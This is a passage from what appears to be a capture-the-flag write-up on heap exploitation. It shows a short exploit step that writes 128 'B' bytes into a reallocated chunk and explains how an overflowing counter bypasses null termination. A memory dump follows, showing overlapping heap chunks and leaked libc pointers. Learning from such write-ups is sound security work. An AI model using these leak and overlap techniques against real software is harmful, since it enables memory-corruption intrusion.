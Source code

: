 ```
payload = 0x80 * 'B'
create(0,0x200,payload)
```

now we malloc back chunk B and all of sudden, the libc addresses are in the body of chunk B that is malloced!
Not just that, we were also able to write exacly 128 Bs in chunk B and that's how we bypassed the null termination
from inbuf. The null byte gets written at 0x56257ccda420 + local_9 where local_9 is the char counter that overflows to -128.

```
0x56257ccda3a0:	0x0000000000000000	0x00000000000000f1 
0x56257ccda3b0:	0x0000000000000000	0x000056257ccda010
0x56257ccda3c0:	0x000056257ccda3a0	0x000056257ccda3a0
0x56257ccda3d0:	0x0000000000000000	0x0000000000000000
0x56257ccda3e0:	0x0000000000000000	0x0000000000000000
0x56257ccda3f0:	0x0000000000000000	0x0000000000000000
0x56257ccda400:	0x0000000000000000	0x0000000000000000
0x56257ccda410:	0x0000000000000000	0x0000000000000211 <--- chunk B that we just malloced back from tcache
0x56257ccda420:	0x4242424242424242	0x4242424242424242 <--- the 0x80 or 128 Bs we wrote
0x56257ccda430:	0x4242424242424242	0x4242424242424242
0x56257ccda440:	0x4242424242424242	0x4242424242424242
0x56257ccda450:	0x4242424242424242	0x4242424242424242
0x56257ccda460:	0x4242424242424242	0x4242424242424242
0x56257ccda470:	0x4242424242424242	0x4242424242424242
0x56257ccda480:	0x4242424242424242	0x4242424242424242
0x56257ccda490:	0x4242424242424242	0x4242424242424242 <--- chunk A that overlaps with chunk B
0x56257ccda4a0:	0x00007f6a2f4adbe0	0x00007f6a2f4adbe0 <--- pointers are still here
0x56257ccda4b0:	0x0000000000000000	0x0000000000000000
0x56257ccda4c0:	0x0000000000000000	0x0000000000000000
0x56257ccda4d0:	0x0000000000000000	0x0000000000000000
0x56257ccda4e0:	0x0000000000000000	0x0000000000000000
0x56257ccda4f0:	0x0000000000000000	0x0000000000000000
0x56257ccda500:	0x0000000000000000	0x0000000000000000
0x56257ccda510:	0x0000000000000000	0x0000000000000000
0x56257ccda520:	0x0000000000000000	0x0000000000000000
0x56257ccda530:	0x0000000000000000	0x0000000000000000
0x56257ccda540:	0x0000000000000000	0x0000000000000000
0x56257ccda550:	0x0000000000000000	0x0000000000000000
0x56257ccda560:	0x0000000000000000	0x0000000000000000
0x56257ccda570:	0x0000000000000000	0x0000000000000000
0x56257ccda580:	0x0000000000000000	0x0000000000000000
0x56257ccda590:	0x0000000000000000	0x0000000000000000
0x56257ccda5a0:	0x0000000000000000	0x0000000000000000
0x56257ccda5b0:	0x0000000000000000	0x0000000000000000
0x56257ccda5c0:	0x0000000000000000	0x0000000000000000
0x56257ccda5d0:	0x0000000000000000	0x0000000000000000
0x56257ccda5e0:	0x0000000000000000	0x0000000000000000
0x56257ccda5f0:	0x0000000000000000	0x0000000000000000
0x56257ccda600:	0x0000000000000000	0x0000000000000000
0x56257ccda610:	0x0000000000000000	0x0000000000000000
0x56257ccda620:	0x0000000000000000	0x0000000000000081
0x56257ccda630:	0x4343434343434343	0x4343434343434343
0x56257ccda640:	0x4343434343434343	0x4343434343434343
0x56257ccda650:	0x4343434343434343	0x4343434343434343
0x56257ccda660:	0x4343434343434343	0x4343434343434343
0x56257ccda670:	0x4343434343434343	0x4343434343434343
0x56257ccda680:	0x4343434343434343	0x4343434343434343
0x56257ccda690:	0x4343434343434343	0x4343434343434343
0x56257ccda6a0:	0x0000000000000000	0x0000000000000081
0x56257ccda6b0:	0x4343434343434343	0x4343434343434343
0x56257ccda6c0:	0x4343434343434343	0x4343434343434343
```
